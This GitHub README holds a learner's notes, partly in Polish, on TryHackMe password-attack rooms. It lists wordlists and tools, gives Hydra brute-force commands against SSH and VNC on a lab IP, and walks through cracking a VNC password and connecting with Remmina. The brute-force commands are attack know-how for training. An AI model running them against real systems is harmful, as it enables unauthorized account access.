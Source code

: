 # Rooms
1. Aoc2022: https://tryhackme.com/room/adventofcyber4
2. Hydra: https://tryhackme.com/room/hydra
3. Protocols and Servers https://tryhackme.com/room/protocolsandservers2
4. Passwords attacks: https://tryhackme.com/room/passwordattacks
5. John The Ripper: https://tryhackme.com/room/johntheripper0

# Wordlist and Tools: 


| Resource                              |                    Source                    |
| ------------------------------------- |:--------------------------------------------:|
| rockyou.txt                           |      `/usr/share/wordlists/rockyou.txt`      |
| Seclists                              |  https://github.com/danielmiessler/SecLists  |
| FuzzDB                                |   https://github.com/fuzzdb-project/fuzzdb   |
| Bruteforce-database                   | https://github.com/duyet/bruteforce-database |
| Tool for privilage escalation to root |      https://github.com/d4t4s3c/suForce      |
| Hydra wordlist                        |  https://github.com/vanhauser-thc/thc-hydra  |



# Commands

## HYDRA - brute-force SSH

```nmap
hydra -l username -P wordlist-passwords.txt server-IP service
hydra -L wordlist-usernames -P wordlist-passwords.txt server-IP service
#równoważne przykłady 
# SSH
hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.40.141 ssh
hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.141

#VNC - nie używa nazwy użytkownika
hydra -P wordlist-passwords.txt server-IP service
hydra -P /usr/share/wordlists/rockyou.txt 10.10.40.141 vnc
```
`mark ` as the username as it iterates over the provided passwords against the SSH server.
**Others porotcoles** : rdp, vnc, ftp, pop3
**Flags**:
`-V` or `-vV` :  verbose
`-d` :  debug mode


## Connect to VNC

### Tool: Remmina

#### Installation Remmina: 
https://remmina.org/how-to-install-remmina/

```copy
sudo apt-add-repository ppa:remmina-ppa-team/remmina-next
sudo apt update
sudo apt install remmina remmina-plugin-rdp remmina-plugin-secret
```

For Ubuntu: 

![obraz](https://user-images.githubusercontent.com/90008283/205734772-e93b6a0d-08b2-45c7-94dd-fee53d74da16.png)

![obraz](https://user-images.githubusercontent.com/90008283/205734818-639ee0ca-d5d2-4536-8cf3-741df5f992e7.png)

![obraz](https://user-images.githubusercontent.com/90008283/205734847-30b0218d-07a1-4396-b300-f2b5d3226cf9.png)

![obraz](https://user-images.githubusercontent.com/90008283/205734897-d5b50c77-0026-4a6d-beec-419c0701be1d.png)



## Remote Access Services


| Protocole | PORT |         Stands By         | Interface |                        OS                        |
| --------- |:----:|:-------------------------:| --------- |:------------------------------------------------:|
| SSH       |  22  |       Secure Shell        | CLI       |            Linux, Putty for MSWindows            |
| RDP       | 3389 |  Remote Desktop Protocol  | GUI       |                    MS Windows                    |
| VNC       | 5900 | Virtual Network Computing | GUI       | Linux, MS Windows, MacOS, Android, Raspberry Pi. |


## HYDRA

Support for protools: ` SSH, VNC, FTP, POP3, IMAP, SMTP,`



# PRACTISE - THM

## 5.1. Użycie Hydry do brute-forca hasła dla usługi VNC. 

```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.40.141 vnc
```

![obraz](https://user-images.githubusercontent.com/90008283/205737156-2bf59c80-3263-4e60-9d30-24f18301bddf.png)

## 5.2. Połączenie się prze VNC do pulpitu zdalnego. - REMMINA

`Application -> Internet -> Remmina` 

![obraz](https://user-images.githubusercontent.com/90008283/205737850-63d60a05-89cd-4c38-b961-4dd8e018e153.png)

![obraz](https://user-images.githubusercontent.com/90008283/205738115-56a17863-b283-482a-8aba-d471c437e03c.png)

![obraz](https://user-images.githubusercontent.com/90008283/205738394-0c63a341-ad8e-4b05-82fc-3112efa215ab.png)



